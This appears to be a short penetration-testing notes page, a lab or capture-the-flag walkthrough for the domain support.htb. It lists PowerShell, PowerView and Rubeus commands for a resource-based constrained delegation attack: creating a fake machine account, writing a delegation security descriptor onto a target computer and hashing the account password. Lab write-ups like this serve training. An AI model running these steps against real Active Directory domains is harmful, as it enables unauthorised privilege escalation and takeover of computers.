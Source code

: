 Steps:

1. Create a new computer object

```
New-MachineAccount -MachineAccount fakehaha1 -Password $(ConvertTo-SecureString 'Password1' -AsPlainText -Force) -Verbose
```

&#x20;2\. Checking if the computer was created and obtaining SID:

```
Get-DomainComputer fakehaha1
```

SID: <mark style="color:yellow;">S-1-5-21-1677581083-3380853377-188903654-5602</mark>

&#x20;3\. Create a new security desciptor for the fakehaha1 computer principal:

```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1677581083-3380853377-188903654-5602)"

$SDBytes = New-Object byte[] ($SD.BinaryLength)

$SD.GetBinaryForm($SDBytes, 0)
```

&#x20;4\. Now, we need to modify the target computer's AD object:

```
Get-DomainComputer ws01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

&#x20;5\. Now, we can generate the RC4 hash using Rubeus:

```
.\Rubeus.exe hash /password:Password1 /user:fakehaha1 /domain:support.htb
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
